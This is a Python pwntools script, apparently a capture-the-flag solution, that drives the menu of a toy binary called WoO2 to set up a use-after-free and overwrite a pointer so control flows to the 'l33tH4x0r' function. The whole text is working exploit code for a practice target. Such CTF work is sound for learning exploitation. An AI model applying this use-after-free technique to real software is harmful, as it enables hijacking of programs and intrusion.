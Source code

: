 ```python
def make_bear(content, type=3):
    # choose bear in toplevel menu
    vp.sendline("3")
    # read bear type menu
    for _ in range(3):
        vp.readline()
    # bear type -- this is actually whatever since we're going to overwrite it
    # probably with content...
    vp.sendline(str(type))
    # read bear's name menu line
    vp.readline()
    # bear name must be 3 for pwnMe to trigger
    vp.sendline(content)
    read_menu()


def make_lion(content, type=2):
    vp.sendline("1")
    for _ in range(3):
        vp.readline()
    vp.sendline(str(type))
    vp.readline()
    vp.sendline(content)
    read_menu()


def make_tiger(content, type=3):
    vp.sendline("2")
    for _ in range(5):
        vp.readline()
    vp.sendline(str(type))
    vp.readline()
    vp.sendline(content)
    read_menu()


def delete_animal(num):
    vp.sendline("4")
    vp.readline()
    vp.readline()
    vp.sendline(str(num))
    read_menu()


if UAF:  # required for WoO2 (fixed)
    log.info("making first bear")
    make_bear("AAAA")
    log.info("making second bear")
    make_bear("AAAA")
    log.info("deleting second bear")
    delete_animal(1)
    # now bearOffset == 1

calltarget = velf.symbols["l33tH4x0r"]
malcontent = p64(calltarget)

log.info("making a tiger with with content\n" + hexdump(malcontent))
log.info("redirecting control flow to " + hex(calltarget))
make_tiger(malcontent, 3)

# vp.interactive()

log.info("triggering pwnMe")
```
